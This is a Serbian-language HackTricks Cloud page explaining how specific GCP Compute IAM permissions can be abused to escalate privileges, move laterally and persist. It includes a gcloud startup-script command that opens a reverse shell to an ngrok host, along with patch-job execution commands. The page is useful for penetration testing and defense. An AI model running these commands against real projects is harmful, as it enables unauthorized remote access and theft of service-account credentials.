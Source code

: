 # GCP - Eskalacija privilegija na računaru

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Računar (Compute)

Za više informacija o Računaru i VPC (mreži) u GCP-u proverite:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Imajte na umu da za izvođenje svih napada eskalacije privilegija koji zahtevaju izmenu metapodataka instance (kao dodavanje novih korisnika i SSH ključeva) **potrebno je da imate dozvole za `actAs` nad SA vezanim za instancu**, čak i ako je SA već vezan!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Sa tom dozvolom možete **modifikovati** informacije o **metapodacima** instance i promeniti **ovlašćene ključeve korisnika**, ili **kreirati** **novog korisnika sa sudo** privilegijama. Na taj način, moći ćete da se prijavite putem SSH-a na bilo koju VM instancu i ukradete GCP Service Account sa kojim se instanca izvršava.\
Ograničenja:

* Imajte na umu da GCP Service Accounts koji se izvršavaju u VM instancama podrazumevano imaju **veoma ograničen opseg**
* Morate biti **u mogućnosti da kontaktirate SSH** server za prijavu

Za više informacija o tome kako iskoristiti ovu dozvolu proverite:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Takođe možete izvesti ovaj napad dodavanjem novog startup skripta i restartovanjem instance:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ovo ovlašćenje daje **iste privilegije kao i prethodno ovlašćenje** ali nad specifičnim instancama umesto celog projekta. **Isti eksploiti i ograničenja kao i za prethodni deo važe**.

### `compute.instances.setIamPolicy`

Ovo ovlašćenje će vam omogućiti da **dodelite sebi ulogu sa prethodnim privilegijama** i eskalirate privilegije zloupotrebom istih.

### **`compute.instances.osLogin`**

Ako je **OSLogin omogućen na instanci**, sa ovim ovlašćenjem možete jednostavno pokrenuti **`gcloud compute ssh [INSTANCA]`** i povezati se sa instancom. Nećete imati **root privilegije** unutar instance.

### **`compute.instances.osAdminLogin`**

Ako je **OSLogin omogućen na instanci**, sa ovim ovlašćenjem možete jednostavno pokrenuti **`gcloud compute ssh [INSTANCA]`** i povezati se sa instancom. Imateće **root privilegije** unutar instance.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Moguće je **kreirati virtuelnu mašinu sa dodeljenim Service Account-om i ukrasti token** servisnog naloga pristupajući metapodacima kako biste eskalirali privilegije na njega.

Skripta za eksploataciju ovog metoda može se pronaći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Ako imate ovlašćenja **`osconfig.patchDeployments.create`** ili **`osconfig.patchJobs.exec`** možete kreirati [**posao ili implementaciju zakrpe**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Ovo će vam omogućiti da se lateralno krećete u okruženju i ostvarite izvršenje koda na svim računarskim instancama unutar projekta.

Ako želite ručno eksploatisati ovo, moraćete kreirati ili [posao za zakrpu](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) ili [implementaciju](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) za pokretanje posla za zakrpu:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Za implementaciju zakrpe:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Automatizovani alati poput [patchy](https://github.com/rek7/patchy) postoje kako bi detektovali slaba ovlašćenja i automatski se kretali lateralno.

**Možete takođe zloupotrebiti ovo za postojanost.**

### `compute.machineImages.setIamPolicy`

**Dodelite sebi dodatna ovlašćenja** za sliku računara.

### `compute.snapshots.setIamPolicy`

**Dodelite sebi dodatna ovlašćenja** za snimak diska.

### `compute.disks.setIamPolicy`

**Dodelite sebi dodatna ovlašćenja** za disk.

### Bypass Access Scopes

Prateći ovaj link možete pronaći neke [**ideje kako zaobići pristupne opsege**](../).

### Lokalna eskalacija privilegija u GCP računarskoj instanci

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Reference

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

